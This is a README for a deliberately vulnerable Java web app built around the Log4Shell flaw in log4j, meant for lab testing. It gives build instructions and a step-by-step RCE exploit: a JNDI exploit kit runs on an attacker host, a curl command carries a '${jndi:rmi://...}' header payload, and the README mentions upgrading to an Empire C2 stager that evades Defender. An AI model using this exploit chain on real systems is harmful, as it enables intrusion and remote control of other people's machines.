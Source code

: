 # log4shell vulnerable app

This is a basic, minimal, intentionally vulnerable Java web application
including a version (2.14.1) of the [log4j](https://en.wikipedia.org/wiki/Log4j)
library affected by the infamous
[log4shell](https://en.wikipedia.org/wiki/Log4Shell) (CVE-2021-44228)
vulnerability.

## build and run instructions

Gradle wrapper should solve everything. Simply git clone the repo:

```
git clone https://github.com/tothi/log4shell-vulnerable-app
```

### running with gradle wrapper

And in the project dir with the file [build.gradle](./build.gradle),
simply run:

```
./gradlew appRun
```

or on Windows platform:

```
.\gradlew.bat appRun
```

JDK is needed. Versions 8 and 11 were tested and are working, 17 seems to
have issues.

### building a portable fat jar

This method builds a one-file portable fat JAR including an embedded
Tomcat server.

Simply run the gradle wrapper with the configured `shadowJar' task:

```
./gradlew shadowJar
```

or on Windows platform:

```
.\gradlew.bat shadowJar
```

The compiled and packages JAR file will be built in the folder `./build/libs`.

It is portable and can be launched using JRE:

```
java -jar ./build/libs/log4shell-vulnerable-app-all.jar
```

The all-in-one portable JAR is available on the [releases page](https://github.com/tothi/log4shell-vulnerable-app/releases) here in the repo.

### interacting with the vulnerable application

The vulnerable application should listen on _all_ interfaces by
default (DANGEROUS behavior if you run it on a production box).

It is available on the URL:

```
http://<IP_ADDR>:8888/app/
```

Note, that the log4j vulnerability triggers only when the app performs
some log4j logging activity. In this demo app, it is active when accessing
the URL:

```
http://<IP_ADDR>:8888/app/servlet
```

and passing a string in the Header "x-log". (This is what gets logged.)
For example, using curl:

```
curl http://<IP_ADDR>:8888/app/servlet -H 'x-log: <payload>'
```

This highlights that __detecting the log4j vulnerability is not obvious at all__.

## exploiting the RCE

Here are some instructions on how to exploit the RCE (even on up-to-date
default Java configurations with TrustURLCodebase set to false).
Tested on Linux and Windows with Java 11.0.1[23].

Simply use the [JNDI Injection Exploit Kit](https://github.com/welk1n/JNDI-Injection-Exploit) by welk1n or a more recent [fork](https://github.com/pimps/JNDI-Exploit-Kit) by pimps.

Steps to perform (in this example, target host is 192.168.56.101 and attacker gost is 192.168.56.1):

1. Launch the vulnerable web app with `.\gradlew.bat appRun`. It listens
on 192.168.56.101:8888 and uses Tomcat 8.5 as a backend. Tomcat 8 (in the classpath) is mandatory for the javax.el.ELProcessor RMI exploit path (supported by the current version of the JNDI Injection Exploit Kit).

2. Launch the JNDI Injection Exploit Kit on the attacker host after building with `mvn package` with `java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'calc.exe'` (the payload will execute calc.exe on the target). Helper servers are started now on 192.168.56.1. Assuming the RMI url for trustURLCodeBase false config is `rmi://192.168.56.1:1099/xzmtee`.

3. Trigger the exploit by sending the malicious payload through the "x-log" header: `curl http://192.168.56.101:8888/app/servlet -H 'x-log: ${jndi:rmi://192.168.56.1:1099/xzmtee}`

4. The app should use the vulnerable log4j for logging the contents of the "x-log" header. While logging, it looks up the referenced RMI URL, and the JNDI Kit sends the RCE payload classloading reference.

5. Note, that instead of logging the actual content of the "x-log" header, the referenced class name ("javax.el.ELProcessor") gets logged.

6. On the target host, calc.exe should be spawned, reaching RCE.

![](./log4shell_rce_demo.png)

UPDATE: here is an extra PoC screenshot for those who are curious and doubt whether launching a calc.exe is useful for anything at all. In this screenshot, replaced the calc.exe payload with an Empire stager giving a full featured C2 Empire Agent (also bypassing up-to-date Windows Defender).

![](./log4shell_rce_demo_empire.png)
